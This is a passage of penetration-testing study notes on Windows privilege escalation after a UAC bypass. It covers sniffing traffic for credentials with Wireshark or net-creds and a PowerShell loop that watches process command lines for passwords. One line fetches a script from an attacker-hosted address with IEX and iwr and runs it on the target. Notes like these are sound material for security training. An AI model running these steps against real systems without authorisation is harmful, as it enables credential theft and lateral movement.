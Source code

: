 ```
        Following a successful UAC bypass, a new powershell windows will be opened with higher privileges and we can confirm it by utilizing the command whoami /all or whoami /priv. This command provides a comprehensive view of the current user's privileges. And we can now access the Administrator directory.





                        //Interacting with Users


                --Traffic Capture

        If Wireshark is installed, unprivileged users may be able to capture network traffic, as the option to restrict Npcap driver access to Administrators only is not enabled by default.

        While not highly likely, if Wireshark is installed on a box that we land on, it is worth attempting a traffic capture to see what we can pick up.

        Also, suppose our client positions us on an attack machine within the environment. In that case, it is worth running tcpdump or Wireshark for a while to see what types of traffic are being passed over the wire and if we can see anything interesting. The tool net-creds can be run from our attack box to sniff passwords and hashes from a live interface or a pcap file. It is worth letting this tool run in the background during an assessment or running it against a pcap to see if we can extract any credentials useful for privilege escalation or lateral movement.

        ( https://github.com/DanMcInerney/net-creds )



                --Process Command Lines
        
        -Monitoring for Process Command Lines

        When getting a shell as a user, there may be scheduled tasks or other processes being executed which pass credentials on the command line. We can look for process command lines using something like this script below. It captures process command lines every two seconds and compares the current state with the previous state, outputting any differences.

        while($true)
        {

        $process = Get-WmiObject Win32_Process | Select-Object CommandLine
        Start-Sleep 1
        $process2 = Get-WmiObject Win32_Process | Select-Object CommandLine
        Compare-Object -ReferenceObject $process -DifferenceObject $process2

        }

        
        -Running Monitor Script on Target Host

        We can host the script on our attack machine and execute it on the target host as follows.

        PS C:\> IEX (iwr 'http://10.10.10.205/procmon.ps1') 


                
                
                --Vulnerable Services


```